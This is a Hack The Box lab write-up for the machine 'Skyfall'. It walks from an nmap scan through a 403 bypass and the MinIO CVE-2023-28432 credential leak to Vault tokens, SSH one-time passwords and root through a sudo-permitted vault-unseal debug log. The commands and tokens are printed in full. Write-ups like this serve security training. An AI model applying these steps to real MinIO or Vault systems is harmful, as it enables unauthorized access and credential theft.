 # **Skyfall | HTB**

***

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/49d61780-7786-4596-ab60-8afd8eb24888)


***

Running our nmap scan we have 2 open ports -:


```bash
# Nmap 7.94SVN scan initiated Tue Feb  6 23:57:47 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt -Pn 10.129.218.132
Increasing send delay for 10.129.218.132 from 0 to 5 due to 204 out of 509 dropped probes since last increase.
Increasing send delay for 10.129.218.132 from 5 to 10 due to 147 out of 367 dropped probes since last increase.
Warning: 10.129.218.132 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.218.132
Host is up (0.15s latency).
Not shown: 40843 closed tcp ports (conn-refused), 24690 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  7 00:02:23 2024 -- 1 IP address (1 host up) scanned in 276.15 seconds
```




Navigating to port 80/HTTP we have a skyfall web page



![](https://i.imgur.com/aCZhFfo.png)



Viewing page source we have a subdomain


![](https://i.imgur.com/XqLid3E.png)


We also have few usernames....



![](https://i.imgur.com/S8thBBr.png)



We can go ahead and add the discovered subdomain, [http://demo.skyfall.htb](http://demo.skyfall.htb/) to our `/etc/hosts` file



![](https://i.imgur.com/yotlKpy.png)




Navigating to the subdomain we have a login page as shown below



![](https://i.imgur.com/FcH5yQl.png)



Login in as `guest:guest` gives us this Page




![](https://i.imgur.com/eCx4fSd.png)



Navigating to `/files`, we have an upload function



![](https://i.imgur.com/ZqCRIZF.png)




Downloading the `welcome.pdf` file shows us this 



![](https://i.imgur.com/OQzXAMH.png)



Since we have been given a nudge to file upload, let see what we have, we can go ahead and upload `PHP` web shell



![](https://i.imgur.com/KyhJUhb.png)



Unfortunately, i found out the web application uses Flask(python) so we can't interact with PHP, Navigating to `/metrics`




![](https://i.imgur.com/m8acFaE.png)






We where able to bypass this 403 restriction with null byte `%0a`, and discover another subdomain http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster


![](https://i.imgur.com/Nh4GGaM.png)




Go ahead and add it to `/etc/hosts`



![](https://i.imgur.com/6Q1V6nA.png)


Navigating to the website and Making more enumeration i found out this minio version is vulnerable to information disclosure from [here](https://github.com/acheiii/CVE-2023-28432?tab=readme-ov-file)


![](https://i.imgur.com/7eNufL6.png)


Confirming our POC


![](https://i.imgur.com/R1ffWy5.png)


We can install the MinIO Client (MC) to enumerate more on this  https://github.com/minio/mc


```
./mc alias set miniobreachuser http://prd23-s3-backend.skyfall.htb MINIO_ROOT_USER MINIO_ROOT_PASSWORD
```


![](https://i.imgur.com/AGveG6S.png)



We can confirm if the minio server is truly up, This tells us we have 
2 active nodes


```
./mc admin info miniobreachuser
```



![](https://i.imgur.com/gDucjSi.png)


Enumerating further we found `gzip` archive with 3 other archives


```
./mc ls --versions miniobreachuser/askyy/home_backup.tar.gz
```



![](https://i.imgur.com/XDm4kFN.png)


Just to fast forward things i downloaded each of this archives to my system and extracted them but it looks like only the `2b75346d-2a47-4203-ab09-3c9f878466b8` archive had useful information in it `.bashrc` file which is a `VAULT_API_ADDR` and a `VAULT_TOKEN`


```bash
./mc cp --vid <ARCHIVE> miniobreachuser/askyy/home_backup.tar.gz .
```


![](https://i.imgur.com/x6RKpb6.png)


![](https://i.imgur.com/YZQ95sp.png)


Made more enumeration and saw that we can use a tool called vault to enumerate more and Generate a One-Time OTP code to login, Go ahead and download vault with the commands below 


```bash
# Install vault

$ wget https://releases.hashicorp.com/vault/1.12.2/vault_1.12.2_linux_amd64.zip
$ unzip vault_1.12.2_linux_amd64.zip 
```


Now export both of the `VAULT_API_ADDR` and `VAULT_TOKEN` into our own zsh environment variable with an extra variable of `VAULT_ADDR`


```bash
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb/"
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb/"

$ ./vault status
```



![](https://i.imgur.com/NP7Zul6.png)


Confirming if you can successfully connect to the API


![](https://i.imgur.com/3EiIjp2.png)


Good!! Now we need to list the policy permissions for this API and see where we have Create, Read and Update Permissions ("`ssh/creds/dev_otp_key_role`")


```bash
./vault read sys/internal/ui/resultant-acl --format=json|jq -r .data
```



![](https://i.imgur.com/rXFBffE.png)



Then go ahead and create the `REMOTE_HOST_IP` environment variable whereby adding your target IP as the value


![](https://i.imgur.com/8gCuERF.png)



Now running Vault with the directory in which we have solid policy permissions, we get a `key` value and a `username`, make sure to note down the key as that is the password for the username via SSH 

```
./vault write <PATH> ip=$REMOTE_HOST_IP
```


![](https://i.imgur.com/SA2mgaF.png)




Go ahead and login via ssh


![](https://i.imgur.com/wetPsw3.png)

> Opps :(, Although we where able to login but since the user nobody isn't really a user and a one time OTP is been generated, meaning we can only use it once, hence we need to generate with the previous command. we need to find another way to get the OTP of another user



After my flow and through, i decided to hit up a friend (Elite Hacker shii :P), who then gave me this syntax



```bash
./vault ssh -role dev_otp_key_role -mode otp username@TARGET-IP

# you know how it works :)
```

After series of testing with different usernames, user `askyy` finally popped, also remember that the OTP is the SSH password


![](https://i.imgur.com/R3Rs0RS.png)



Now let get root 😫, Damn how do i say i am brainfucked without been brainfucked, Screams: HTB INSANE MACHINES!!!!!!


![](https://i.imgur.com/u2785Pa.png)


Aiit, Back to root, running `sudo -l` we have permissions to run `vault-unseal` with root privileges using `sudo`



![](https://i.imgur.com/ImVecRj.png)


Running this command, it creates a debug.log file in our present directory but we can't read it cos' it was probably created by root


```bash
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d
```



![](https://i.imgur.com/inQ83Mi.png)


We can go ahead and delete this `debug.log` file and then create ours granting it `777` permissions and rerun the commands



![](https://i.imgur.com/qbItUuN.png)


Now you should be able to read the `debug.log` and have the master token, we will use this to gain root shell



![](https://i.imgur.com/rxhsiIa.png)


With this master token, i will be able to request an OTP for the user `root` SSH login as password, go ahead and export the token and check for permission policies


```bash
export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"

export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb/"

./vault read sys/internal/ui/resultant-acl --format=json|jq -r .data
```


![](https://i.imgur.com/oh72DP7.png)


Since we don't have any path, we can strip out the `-role` parameter from our command options, in which doing this gives us some roles we can use


```bash
./vault ssh -mode otp root@10.129.219.80
```



![](https://i.imgur.com/35ojIGz.png)




Go ahead and add the role parameter and you should be root




```bash
./vault ssh -role admin_otp_key_role -mode otp root@10.129.219.80
```



![](https://i.imgur.com/gWqL3po.png)


GG
